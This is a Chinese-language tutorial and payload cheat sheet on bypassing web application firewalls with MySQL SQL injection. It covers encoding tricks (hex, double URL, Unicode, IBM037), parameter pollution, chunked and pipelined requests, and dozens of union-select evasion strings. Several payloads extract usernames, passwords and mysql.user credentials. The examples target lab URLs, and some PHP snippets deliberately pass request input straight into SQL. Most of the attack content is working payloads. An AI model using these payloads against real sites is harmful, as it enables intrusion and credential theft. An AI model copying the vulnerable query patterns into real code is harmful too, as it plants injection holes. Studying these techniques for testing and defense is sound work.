

## 0x00 SQL注入绕过技术概述
SQL注入绕过技术是一个老生常谈的内容，防注入可以使用某些云WAF，检测到危害语句就会进行拦截，也可以在程序中对输入参数进行过滤和拦截。  
SQL注入绕过技术有很多，但是在日渐成熟的WAF产品面前，测试的难度也越来越高。因为WAF产品规则越来越完善，防御能力越来越高，系统安全性也越来越高。

## 0x01 空格字符绕过
两个空格代替一个空格，用 Tab 代替空格，%a0=空格，URL中的空格应该被编码为+或%20。
以下可以代替空格的字符有：
```bash
%20 %09 %0a %0b %0c %0d %a0 %00 /**/ /*!*/

%09 TAB 键（水平）
%0a 新建一行
%0b TAB 键（垂直）
%0c 新的一页
%0d return 功能
%a0 空格
```
可以将空格字符替换成注释 /**/ 还可以使用 /\*!这里根据 mysql 的版本，注释中的内容不起到注释作用*/  
例如下面的两条sql语句是等价的，他们作用一样，查询出来的内容也一致。 
```sql
select * from users where id=1 /*!union*//*!select*/1,2,3,4;

select * from users where id=1 union select 1,2,3,4;
```
## 0x02 大小写绕过
将字符串设置为大小写，例如 and 1=1 转成 AND 1=1 AnD 1=1 也可以绕过关键字过滤。  
```sql
select * from users where id=1 UNION SELECT 1,2,3,4;

select * from users where id=1 UniON SelECT 1,2,3,4;
```
http://192.168.0.101:7766/Less-27/?id=999999%27%0AuNIon%0ASeLecT%0A1,user(),3%0Aand%0A%271  

http://192.168.0.145:7766/Less-27/?id=9999999%27%09UniOn%09SeLeCt%091,(SelEct%09group_concat(username,password)from%09users),3%09and%20%271  
过滤空格可以使用 %09代替。

## 0x03 浮点数绕过注入
浮点数绕过进行sql注入的使用场景是什么？哪里能用到浮点数绕过？这个后续需要补充。
```sql
select * from users where id=8E0union select 1,2,3,4;
select * from users where id=8.0union select 1,2,3,4;
```

## 0x04 NULL值绕过
select \N; 代表 null  
```sql
select * from users where id=\Nunion select 1,2,3,\N;
select * from users where id=\Nunion select 1,2,3,\Nfrom users;
```
NULL值为空值，让id的参数值等于NULL，即查询不到任何内容，就可以让回显位置返回union select的内容。

## 0x05 引号绕过
如果 waf 拦截过滤单引号的时候，可以使用双引号 在 mysql 里也可以用双引号作为字符串。  
```sql
select * from users where id='1';
select * from users where id="1";
```
也可以将字符串转换成 16 进制 再进行查询。  
```sql
select hex('admin');
select * from users where username='admin';
select * from users where username=0x61646D696E;
```
如果 gpc 开启了，但是注入点是整形 也可以用 hex 十六进制进行绕过。因为有些WAF会监测单引号，只要有单引号就会提示：‘这条语句可能存在SQL注入！所以就可以使用HEX绕过编码。
```sql
select * from users where id=-1 union select 1,2,(select group_concat(column_name) from
information_schema.columns where TABLE_NAME='users' limit 1),4;

select * from users where id=-1 union select 1,2,(select group_concat(column_name) from
information_schema.columns where TABLE_NAME=0x7573657273 limit 1),4;
```

## 0x06 添加库名绕过
有些WAF的拦截规则，并不会拦截 [库名].[表名] 这种模式。在MySQL中，也可以添加库名查询表，例如跨库查询mysql库中的users表内容。
```sql
select * from users where id=-1 union select 1,2,3,4 from users;
select * from users where id=-1 union select 1,2,3,4 from moonsec.users;

select * from users where id=-1 union select 1,2,3,concat(user,authentication_string) from mysql.user;
```

## 0x07 去重复绕过
可以使用distinct去除重复值，可以利用这点截断union select 从而绕过WAF。
```sql
select * from users where id=-1 union distinct select 1,2,3,version() from users;
```

## 0x08 反引号绕过
在 mysql 可以使用 \`这里是反引号\` 绕过一些 waf 拦截。字段可以加反引号或者不加，意义相同。
```sql
insert into users(username,password,email)values('moonsec','123456','admin@moonsec.com');

insert into users(`username`,`password`,`email`)values('moonsec','123456','admin@moonsec.com');
```

## 0x09 利用脚本语言特性绕过
在 php 语言中 id=1&id=2 后面的值会自动覆盖前面的值，不同的语言有不同的特性。可以利用这点绕过一些 waf 的拦截。  
例如，使用如下payload：  
id=1%00&id=2 union select 1,2,3  
有些 waf 会去匹配第一个 id 参数 1%00 %00 是截断字符，waf 会自动截断，从而不会检测后面的内容。到了
程序中 id 就是等于 id=2 union select 1,2,3 从绕过注入拦截。  
其他语言和中间件特性：  
  
在中间件中，如果WAF只检测了第一个或最后一个参数，利用中间件特性正好取与WAF相反的参数，即可成功绕过。  
以IIS为例，一般的sql注入语句是 union select 1，2，3，4  将sql语句转换为以下格式：  
```sql
Inject=union/*&inject=*/select/*&inject=*/1&inject=2&inject=3&inject=4

#最终在IIS中读取到的参数值如下：
Inject=union/*, */select/*, */1,2,3,4
```

## 0x10 利用 substr 截取字符串进行逗号绕过
目前，有些防注入脚本会对逗号进行拦截，但是常规注入中还要包含逗号，所以有以下几个不使用逗号进行注入的方式，利用substr字符串截取函数进行绕过是常用方法。  
select(substr(database() from 1 for 1)); 查询当前库第一个字符  
查询 m 等于 select(substr(database() from 1 for 1))页面返回正常  
select * from users where id=1 and 'm'=(select(substr(database() from 1 for 1)));  
可以进一步优化 m 换成 hex 0x6D 这样就避免了单引号：  
select * from users where id=1 and 0x6D=(select(substr(database() from 1 for 1)));  

## 0x11 利用 mid 截取字符串进行逗号绕过
mid函数和substr函数作用相同，如果substr函数被拦截或者过滤，可以使用这个函数代替。  
```sql
select mid(database() from 1 for 1);   
select * from users where id=1 and 'm'=(select(mid(database() from 1 for 1)));
select * from users where id=1 and 0x6D=(select(mid(database() from 1 for 1)));
```

## 0x12 利用 join连接 进行逗号绕过
使用join可以连接两个表。  
union select 1,2  等价于 union select * from (select 1)a join (select 2)b 此处a 和 b分别是表的别名。
```sql
select * from users where id=-1 union select 1,2,3,4;
select * from users where id=-1 union select * from (select 1)a join (select 2)b join(select 3)c join(select 4)d;
select * from users where id=-1 union select * from (select 1)a join (select 2)b join(select user())c join(select 4)d;
```
以上利用join连接并没有使用逗号，从而可以绕过WAF对逗号的拦截。
```bash
mysql> select user,password from users where user_id='-1' union select * from (select 1)a join (select 2)b;
+------+----------+
| user | password |
+------+----------+
| 1    | 2        |
+------+----------+
```

## 0x13 利用 like 进行逗号绕过
使用 like 模糊查询 select user() like '%r%'; 模糊查询成功返回 1 ，否则返回 0。  
找到第一个字符后继续进行下一个字符匹配。从而找到所有的字符组成字符串，最后就是要查询的内容，这种 SQL 注入语句也不会存在逗号，可以绕过 waf 拦截。

## 0x14 limit offset 绕过
SQL 注入时，如果需要限定条目可以使用 limit 0,1 限定返回条目的数目 limit 0,1 返回条一条记录 如果对逗号进行拦截时，可以使用 limit 1 默认返回第一条数据。也可以使用 limit 1 offset 0 从零开始返回第一条记录，这样就绕过 waf 拦截了。

## 0x15 and or not xor 绕过
目前主流的 waf 都会对 id=1 and 1=2、id=1 or 1=2、id=0 or 1=2、id=0 xor 1=1 limit 1 、id=1 xor 1=2等，对这些常见的 SQL 注入检测语句进行拦截。像 and 这些可以有字符代替
```bash
and 等于&&
or 等于 ||
not 等于 !
xor 等于|
所以可以转换成这样
id=1 and 1=1 等于 id=1 && 1=1
id=1 and 1=2 等于 id=1 && 1=2
id=1 or 1=1 等于 id=1 || 1=1
id=0 or 1=0 等于 id=0 || 1=0
```
以上可以绕过一些waf拦截，对注入点进行安全检测，也可以使用运算符号id=1 && 2=1+1 ，id=1 && 2=1-1等。

## 0x16 ASCII字符对比绕过
许多 waf 会对 union select 进行拦截 而且通常比较变态，那么可以不使用联合查询注入，可以使用字符截取对比法，进行突破。  
```sql
select substring(user(),1,1);
select * from users where id=1 and substring(user(),1,1)='r';
select * from users where id=1 and ascii(substring(user(),1,1))=114;
```
最好把'r'换成成 ascii 码，如果开启 gpc 引号会被转义。

## 0x17 等号绕过
如果程序会对=进行拦截 可以使用 like rlike regexp ，或者使用大于号和小于号进行绕过。
```sql
select * from users where id=1 and ascii(substring(user(),1,1))<115;
select * from users where id=1 and ascii(substring(user(),1,1))>115;
select * from users where id=1 and (select substring(user(),1,1)like 'r%');
select * from users where id=1 and (select substring(user(),1,1)rlike 'r');
select * from users where id=1 and 1=(select user() regexp '^r');
select * from users where id=1 and 1=(select user() regexp '^root');
select * from users where id=1 and 1=(select user() regexp '^a');
```
其中rlike和regexp作用相同，可以使用更加复杂的正则表达式进行匹配。

## 0x18 双关键字绕过
有些程序会对单词 union、 select 进行转空 但是只会转一次这样会留下安全隐患。  
双关键字绕过（若删除掉第一个匹配的 union 就能绕过）  
id=-1'UNIunionONSeLselectECT1,2,3--+  
到数据库里执行会变成 id=-1'UNION SeLECT1,2,3--+ 从而绕过注入拦截。

## 0x19 二次编码绕过
有些程序会解析二次编码，造成 SQL 注入，因为 url 两次编码过后，waf 是不会拦截的。  
-1 union select 1,2,3,4#  
第一次转码：  
%2d%31%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%32%2c%33%2c%34%23  
第二次转码：  
%25%32%64%25%33%31%25%32%30%25%37%35%25%36%65%25%36%39%25%36%66%25%36%65%25%32%30%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%33%31%25%32%63%25%33%32%25%32%63%25%33%33%25%32%63%25%33%34%25%32%33   
代码分析：
```php
$id=isset($_GET['id'])?url_decode(filterstr($_GET['id'])):1;
$sql="select * from users where id='$id'";
```
首先要知道，一般情况下Web浏览器提交的数据，PHP会自动把其解码回来，这是中间件的特性，例如admin%3d 会解码为 admin=，此时为一次解码。  
然后我们分析代码，一次解码后gpc转义特殊字符，然后代码又进行了二次解码，这就导致了二次编码注入。  
总结一下，就是url_decode函数和PHP自身处理编码时配合失误导致的。

## 0x20 多参数拆分绕过
当一条sql语句中有多个参数时，可以将注入语句分割插入，例如get请求  
a=[input1]&b=[input2] 可以将参数 a 和 b 拼接在 SQL 语句中。  
在程序代码中看到两个可控的参数，但是使用 union select 会被 waf 拦截。  
```php
$id=isset($_GET['id'])?$_GET['id']:1;
$username=isset($_GET['username'])?$_GET['username']:'admin';
$sql="select * from users where id = '$id' and username='$username'";
```
使用参数拆分请求绕过waf拦截：  
```sql
'-1'union/*&username=*/select 1,user(),3,4--+
```
上面的语句中，会把 -1'union/\*当作第一个参数，id的参数。把\*/select 1,user(),3,4--+ 当做第二个参数，即username的参数。所以运行的sql语句如下所示：
```sql
select * from users where id ='-1'union/*&username=*/select 1,user(),3,4--+
```
当URL中两个参数可控时，就可以把sql注入关键字分解到两个参数中，利用组合注入语句突破waf拦截。

## 0x21 使用生僻函数绕过
使用生僻函数替代常见的函数，例如在报错注入中使用 polygon()函数替换常用的 updatexml()函数。  
select polygon((select * from (select * from (select @@version) f) x));

## 0x22 分块传输绕过
要理解分块传输绕过，首先要知道chunked编码。  
### 什么是chunked编码？
分块传输编码（chunked transfer encoding）是只在HTTP1.1版本中提供的一种数据传输机制。  
以往HTTP的响应数据是一起发送的，并会在响应头的 content length字段 中标明数据包长度，以便客户端知道响应消息的长度。  
传统的 Content-length 解决方案：计算实体长度，并通过头部告诉对方。浏览器可以通过 Content-Length的长度信息，判断出响应实体已结束。  
Content-length 面临的问题：由于 Content-Length 字段必须真实反映实体长度，但是对于动态生成的内容来说，在内容创建完之前，长度是不可知的。这时候要想准确获取长度，只能开一个足够大的 buffer，等内容全部生成好再计算。这样做一方面需要更大的内存开销，另一方面也会让客户端等更久。  
我们需要一个新的机制：不依赖头部的长度信息，也能知道实体的边界——分块编码（Transfer-Encoding:chunked）。  
对于动态生成的应答内容来说，内容在未生成完成前总长度是不可知的。因此需要先缓存生成的内容，再计算总长度填充到 Content-Length，再发送整个数据内容。这样显得不太灵活，而使用分块编码则能得到改观。  
分块传输编码允许服务器在最后发送消息头字段。例如在头中添加散列签名。对于压缩传输传输而言，可以一边压缩一边传输。

### 如何使用chunked编码？

如果在 http 的消息头里 Transfer-Encoding 为 chunked，那么就是使用此种编码方式。  
接下来会发送数量未知的块，每一个块的开头都有一个十六进制的数,表明这个块的大小，然后接CRLF("\r\n")。然后是数据本身，数据结束后，还会有 CRLF("\r\n")两个字符。有一些实现中，块大小的十六进制数和 CRLF 之间可以有空格。  
最后一块的块大小为 0，表明数据发送结束。最后一块不再包含任何数据，但是可以发送可选的尾部，包括消息头字段，消息最后以 CRLF 结尾。  
chunked编码数据包如下：
```bash
HTTP/1.1 200 OK
Content-Type: text/plain
Transfer-Encoding: chunked
23\r\n
This is the data in the first chunk\r\n
1A\r\n
and this is the second one\r\n
3\r\n
con\r\n
8\r\n
sequence\r\n
0\r\n
\r\n
```
这里有个比较好用的burp suite插件 chunked-coding-converter，可以自动把内容转换为chunked编码，并且会混淆一些随机字段来绕过waf，效果图如下：  
  

## 0x23 信任白名单绕过
有些 WAF 会自带一些文件白名单，对于白名单 waf 不会拦截任何操作，所以可以利用这个特点，可以试试白名单绕过。  
白名单通常有目录：  
/admin  
/phpmyadmin  
/admin.php  
http://192.168.0.115/06/vul/sqli/sqli_str.php?a=/admin.php&name=vince+&submit=1  
http://192.168.0.165/06/vul/sqli/sqli_str.php/phpmyadmin?name=%27%20union%20select%201,user()--+&submit=1  

## 0x24 静态文件绕过
除了白名单信任文件和目录外，还有一部分 waf 并不会对静态文件进行拦截。  
例如 图片文件 jpg 、png 、gif 或者 css等， 网站一般不会检测这些静态文件的操作从而绕过 waf 拦截。  
sqli_str.php?/1.jpg=/  
/1.jpg&name=vince+&submit=1  
/1.jpg=/1.jpg&name=vince+&submit=1  
/1.css=/1.css&name=vince+&submit=1  

## 0x25 pipline绕过注入
http 协议是由 tcp 协议封装而来，当浏览器发起一个 http 请求时，浏览器先和服务器建立起连接 tcp 连接，然后发送 http 数据包，其中包含了一个 Connection 字段，一般值为 close，Apache 等容器根据这个字段决定是保持该 tcp 连接或是断开。  
当发送的内容太大，超过一个
http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的 http 请求所建立的 tcp 连接不断开，直到所发送内容结束 Connection 为 close 为止。  
操作方法：  
用 burpsuite 抓包提交 复制整个包信息放在第一个包最后，把第一个包 close 改成 keep-alive 把brupsuite 自动更新 Content-Length 勾去掉。  
第一个包参数的字符要加上长度接着提交即可（这里要注意数据包内容长度要自行修改更新，不要用burp的长度更新）。有些 waf 会匹配第二个包的正属于正常参数，不会对第一个包的参数进行检测，这样就可以绕过一些 waf 拦截。

## 0x26 利用multipart/form-data 绕过注入
在 http 头里的 Content-Type 提交表单支持三种协议：  
application/x-www-form-urlencoded 编码模式 post 提交  
multipart/form-data 文件上传模式  
text/plain 文本模式  
文件头的属性是传输前对提交的数据进行编码发送到服务器。  
其中 multipart/form-data 表示该数据被编码为一条消息，页上的每个控件对应消息中的一个部分。所以，当 waf 没有规则匹配该协议传输的数据时可被绕过。  
Content-Type: multipart/form-data;  
boundary=---------------------------28566904301101419271642457175  
boundary 这是用来匹配的值  
Content-Disposition: form-data; name="id" 这也能作为 post 提交  
所以程序会接收到构造的 SQL 注入语句-1 union select 1,user()  
  

## 0x27 order by 绕过
当 order by 被过滤时，无法猜解字段数，此时可以使用 into 变量名进行代替。  
```sql
select * from users where id=1 into @a,@b,@c,@d;
```

## 0x28 相同参数请求绕过
waf 在对危险字符进行检测的时候，分别为 post 请求和 get 请求设定了不同的匹配规则，请求被拦截，变换请求方式有几率能绕过检测。如果程序中能同时接收 get、post 如果 waf 只对 get 进行匹配拦截，没有对 post 进行拦截，就可以变换请求方式绕过。  
```php
<?php
echo $_REQUEST['id'];
?>
```
在用request接收时，POST的优先级是大于GET的，所以我们在一个数据包中既用GET传参，又用POST传参，后台一般会接收POST提交的参数，这样可以绕过只检测GET的WAF。  
```php
<?php
echo $_GET['id'];
?>
```
如果一个程序中，后台代码只能接收GET传参，但是我们用POST发送数据包，此时有些WAF具有特性：当GET和POST同时存在时，优先匹配POST。  
这时，WAF检测不到我们通过GET传输的payload，从而达到绕过WAF的目的。  

## 0x29 application/json 或者 text/xml 绕过
有些程序是 json 提交参数，程序也是 json 接收再拼接到 SQL 执行 json 格式通常不会被拦截。所以可以绕过 waf。请求报文格式如下：  
```bash
POST /06/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.0.115
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type:application/json
Content-Length: 38
Origin: http://192.168.0.115
Connection: close
Referer: http://192.168.0.115/06/vul/sqli/sqli_id.php
Cookie: PHPSESSID=e6sa76lft65q3fd25bilbc49v3; security_level=0
Upgrade-Insecure-Requests: 1

{'id':1 union select 1,2,3,'submit':1}
```
同样 text/xml 也不会被拦截。但是要注意，程序代码端要有对应的json_decode解码，而不是我们传了json它自动就会解码。

## 0x30 填充大量字符绕过
burp url编码快捷键：ctrl+u。 
```sql
id=1 and (select 1)=(select
0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()

#post编码后
1+and+(select+1)%3d(select+0xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)/*!union*//*!select*/1,user()&submit=1

id=1+and+(select+1)and+(select+0xA*1000)/*!union*//*!select*/+1,user()--+&submit=%E6%9F%A5%E8%AF%A2
```

## 0x31 花括号绕过
select 1,2 union select{x 1},user()  
花括号 左边是注释的内容 这样可以一些 waf 的拦截。  

## 0x32 使用ALL或DISTINCT绕过
去掉重复值：  
select 1,2 from users where user_id=1 union DISTINCT select 1,2  
select 1,2 from users where user_id=1 union select DISTINCT 1,2  
显示全部：  
select 1,2 from users where user_id=1 union all select 1,2  
select 1,2 from users where user_id=1 union select all 1,2  

## 0x33 换行混淆绕过
目前很多 waf 都会对 union select 进行过滤的 因为使用联合查询 这两个关键词是必须的，一般过滤这个两个字符 想用联合查询就很难了。  
可以使用换行加上一些注释符进行绕过。  
  
也可以进行编码，其中%0a是换行符：  
  

## 0x34 编码绕过
加号“+”在 URL编码中和“%20”表示一样，均为空格。  
当遇到非 ASCII 码表示的字符时，如中文，浏览器或通过编写 URLEncode，根据 UTF-8、GBK 等编码 16 进制形式，进行转换。如“春”的 UTF-8 编码为 E6 98 A5，因此其在支持 UTF-8 的情况下，URL 编码为%E6%98%A5。值得注意的是采取不同的中文编码，会有不同的 URL 编码。  
在 URL 传递到后台时，首先 web 容器会自动先对 URL 进行解析。容器解码时，会根据设置（如 jsp 中，会使用 request.setCharacterEncoding("UTF-8")），采用 UTF-8 或 GBK 等其中一种编码进行解析。这时，程序无需自己再次解码，便可以获取参数（如使用 request.getParameter(paramName)）。  
但是，有时从客户端提交的 URL 无法确定是何种编码，如果服务器选择的编码方式不匹配，则会造成中文乱码。为了解决这个问题，便出现了二次 URLEncode 的方法。在客户端对 URL 进行两次 URLEncode，这样类似上文提到的%E6%98%A5 则会编码为%25e6%2598%25a5，为纯 ASCII 码。Web 容器在接到 URL 后，自动解析一次，因为不管容器使用何种编码进行解析，都支持 ASCII 码，不会出错。然后在通过编写程序对容器解析后的参数进行解码，便可正确得到参数。在这里，客户端的第一次编码，以及服务端的第二次解码，均是由程序员自己设定的，是可控的，可知的。  
但是如果url_decode与中间件解码配合失误，就会造成二次url编码绕过WAF。

## 0x35 ibm037编码绕过
编码绕过在绕 waf 中也是经常遇到的，通常 waf 只坚持他所识别的编码，比如说它只识别 utf-8 的字符，但是服务器可以识别比 utf-8 更多的编码。那么我们只需要将 payload 按照 waf 识别不了但是服务器可以解析识别的编码格式即可绕过。  
比如请求包中我们可以更改 Content-Type 中的 charset 的参数值，我们改为 ibm037 这个协议编码，有些服务器是支持的。payload 改成这个协议格式就行了。  
```bash
POST /06/vul/sqli/sqli_id.php HTTP/1.1
Host: 192.168.0.115
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;charset:ibm037
Content-Length: 33
Connection: close
Cookie: PHPSESSID=e6sa76lft65q3fd25bilbc49v3; security_level=0
Upgrade-Insecure-Requests: 1

%89%84=%F1&%A2%A4%82%94%89%A3=%F1
```
对以上数据包进行解读，其中未编码的数据：  
id=123&pass=pass%3d1   
通过IBM037编码后的数据：  
%89%84=%F1%F2%F3&%97%81%A2%A2=%97%81%A2%A2~%F1  
在提交的 http header中添加：  
Content-Type: application/x-www-form-urlencoded; charset=ibm037  

附上处理编码的代码：  
```python
import urllib.parse
s = 'id=-1 union select 1,user()-- &submit=1'
ens=urllib.parse.quote(s.encode('ibm037'))
print(ens)
```

## 0x36 URL编码绕过
在 iis 里会自动把 url 编码转换成字符串传到程序中执行。  
例如 union select 可以转换成 u%6eion s%65lect  

## 0x37 Unicode 编码绕过
Unicode编码形式：“\u”或者是“%u”加上 4 位 16 进制数。
iis 会自动进行识别这种编码 有部分 waf 并不会拦截这这种编码。  
-1 union select 1,user()  
部分转码：  
-1 uni%u006fn sel%u0065ct 1,user()  
全部转码：  
%u002d%u0031%u0020%u0075%u006e%u0069%u006f%u006e%u0020%u0073%u0065%u006c%u0065%u0063%u0074%u0020%u0031%u002c%u0075%u0073%u0065%u0072%u0028%u0029  

## 0x38 union select 绕过
目前不少 waf 都会使用都会对 union select 进行拦截 单个不拦截 一起就进行拦截。  
针对单个关键词绕过：  
```txt
sel<>ect 程序过滤<>为空 脚本处理  
sele/**/ct 程序过滤/**/为空  
/*!%53eLEct*/ url 编码与内联注释  
se%0blect 使用空格绕过  
sele%ct 使用百分号绕过  
%53eLEct 编码绕过 
```

大小写绕过：  
```txt
uNIoN sELecT 1,2
union all select 1,2
union DISTINCT select 1,2
null+UNION+SELECT+1,2
/*!union*//*!select*/1,2
union/**/select/**/1,2
and(select 1)=(Select 0xA*1000)/*!uNIOn*//*!SeLECt*/ 1,user()
/*!50000union*//*!50000select*/1,2
/*!40000union*//*!40000select*/1,2
%0aunion%0aselect 1,2
%250aunion%250aselect 1,2
%09union%09select 1,2
%0caunion%0cselect 1,2
%0daunion%0dselect 1,2
%0baunion%0bselect 1,2
%0d%0aunion%0d%0aselect 1,2
--+%0d%0aunion--+%0d%0aselect--+%0d%0a1,--+%0d%0a2
/*!12345union*//*!12345select*/1,2;
/*中文*/union/*中文*/select/*中文*/1,2;
/* */union/* */select/ */1,2;
/*!union*//*!00000all*//*!00000select*/1,2
```